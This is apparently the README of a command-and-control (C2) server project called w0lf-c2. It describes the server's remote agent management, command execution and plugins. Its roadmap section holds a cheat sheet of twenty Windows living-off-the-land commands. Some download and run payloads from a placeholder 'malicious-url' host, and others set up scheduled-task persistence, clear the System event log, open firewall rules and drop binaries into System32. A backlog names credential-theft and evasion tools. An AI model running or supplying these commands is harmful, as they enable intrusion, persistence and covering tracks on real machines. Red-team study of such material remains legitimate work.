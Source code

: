 # C2 Server

## Overview

This repository serves as a educational reference and contains the implementation of a Command and Control (C&C) server used for managing and controlling remote clients. The server facilitates communication with these clients, allowing for command execution, data retrieval, and other operations as needed.

## Features

- **Agent Management**: Registering, managing, and communicating with remote clients.
- **Command Execution**: Sending commands to clients and receiving responses.
- **Data Exchange**: Transferring files, data, or payloads securely between server and clients.
- **Security**: Implementing encryption and secure communication channels.
- **Scalability**: Supporting multiple clients simultaneously and efficiently.
- **Pluggable**: Support for additional commands with plugins.

## Setup Instructions
I tried to make the installation process as simple as possible

1. **Prerequisites**:
   - Node.js 18+ and npm installed.

2. **Installation**:
   ```bash
   git clone <repository_url>
   cd w0lf-c2
   npm install

3. **Running**:
   ```bash
   npm run start

## Features

- Client was built on six diffent languages (c, rust, powershell, python, js, go)
- Multiple client session management
- Extended features through plugins.
- Server and client logging
- Plugins:
   - Client Manager: A client plugin to manage the remote client.
   - Cmd.exe Binaries: A client plugin that provides native cmd.exe commands.
   - File Manager: A client plugin to manage and manipulate files and folders.
   - System Profiling: A client plugin to profile the system.
   - Living Off The Land Binaries: A client plugin that provides Windows LOLBin commands.
   - Screensaver: A server plugin to show a couple screensavers.

## In The Works

- Expand on WMI Communication/Info Gathering
  ```powershell
  Get-WmiObject Win32_OperatingSystem | Select-Object -ExpandProperty SerialNumber
- Additional communication channels (http2, udp, tls)
- Add more LOLBas commands
   ```bash
   # 1. certutil.exe for Downloading Files
   certutil.exe -urlcache -split -f http://malicious-url/payload.exe C:\Windows\Temp\payload.exe
   # 2. regsvr32.exe for Script Execution
   regsvr32.exe /s /n /u /i:http://malicious-url/script.sct scrobj.dll
   # 3. wmic.exe for Remote Command Execution
   wmic.exe process call create "powershell.exe -NoProfile -ExecutionPolicy Bypass -Command 'IEX ((New-Object Net.WebClient).DownloadStrin ('http://malicious-url/payload.ps1'))'"
   # 4. rundll32.exe for DLL Execution
   rundll32.exe C:\Path\To\Malicious.dll,EntryPoint
   # 5. schtasks.exe for Task Scheduling
   schtasks.exe /create /tn "UpdateTask" /tr "powershell.exe -NoProfile -ExecutionPolicy Bypass -File C:\Path\To\Payload.ps1" /sc daily /st 12:00
   # 6. at.exe for Task Scheduling (Legacy)
   at.exe 12:00 /every:M,T,W,Th,F,Sa,Su "powershell.exe -NoProfile -ExecutionPolicy Bypass -File C:\Path\To\Payload.ps1"
   # 7. msiexec.exe for MSI Execution
   msiexec.exe /quiet /i http://malicious-url/payload.msi
   # 8. scrcons.exe for Script Execution
   scrcons.exe C:\Path\To\Script.vbs
   # 9. xcopy.exe for File Copying
   xcopy /Y C:\Path\To\Malicious.exe C:\Windows\System32\Malicious.exe
   # 10. whoami.exe for User Information
   whoami.exe /all
   # 11. fsutil.exe for File System Utility
   fsutil file createnew C:\Path\To\Malicious.txt 1000
   # 12. wevtutil.exe for Event Log Management
   wevtutil.exe cl System
   # 13. certreq.exe for Certificate Requests
   certreq.exe -new Malicious.inf
   # 14. typeperf.exe for Performance Data
   typeperf "\Processor(_Total)\% Processor Time"
   # 15. bitsadmin.exe for Background File Transfers
   bitsadmin.exe /transfer "jobname" /download /priority normal http://malicious-url/payload.exe C:\Windows\Temp\payload.exe
   # 16. netsh.exe for Network Shell
   netsh advfirewall firewall add rule name="MaliciousRule" dir=in action=allow program="C:\Path\To\Malicious.exe" enable=yes
   # 17. cscript.exe for Script Execution
   cscript C:\Path\To\Malicious.vbs
   # 18. icacls.exe for ACL Management
   icacls C:\Path\To\Malicious.exe /grant Everyone:(RX)
   # 19. wbadmin.exe for Backup Operations
   wbadmin start backup -backupTarget:\\localhost\Backup -include:C:\Path\To\Malicious.exe
   # 20. xcopy.exe with /b Switch for Payload Dropping
   xcopy /b Malicious.exe C:\Windows\System32\LegitFile.dll

## Backlog
Other ideas and things on the back burner:

- Net Commands: Used for network reconnaissance and information gathering.
- netstat: Displays active network connections, listening ports, and related information.
- net: Used for various network operations such as user authentication, shares, sessions, and more.
- arp: Displays and modifies the ARP cache.

- PowerShell Commands: PowerShell provides extensive capabilities for attackers, including scripting, execution of malicious payloads, and interacting with system APIs.
- Invoke-Mimikatz: Executes Mimikatz, a tool for retrieving credentials from memory.
- Invoke-Obfuscation: Obfuscates malicious PowerShell scripts to evade detection.
- Invoke-Shellcode: Executes shellcode in memory without writing to disk.

- Enumeration Tools: Tools used to gather information about the compromised system and the network.
- Nmap: A powerful network scanner used for host discovery, port scanning, and service enumeration.
- enum4linux: Enumerates information from Windows and Samba systems, such as shares, users, groups, policies, and more.
- Responder: Listens for and captures NetNTLMv1/v2 authentication requests, used for credential theft.

- Exploitation Frameworks: Frameworks used to exploit vulnerabilities and gain unauthorized access.
- Metasploit Framework: A popular exploitation framework that includes a large collection of exploits, payloads, and post-exploitation modules.
- Empire: A post-exploitation framework that allows attackers to maintain persistence, escalate privileges, and exfiltrate data.

- Privilege Escalation Tools: Tools and techniques used to escalate privileges on compromised systems.
- PowerUp: PowerShell script that checks for common Windows privilege escalation vectors.
- Windows Exploit Suggester: Python script that suggests potential exploits for Windows systems based on OS version and patch level.
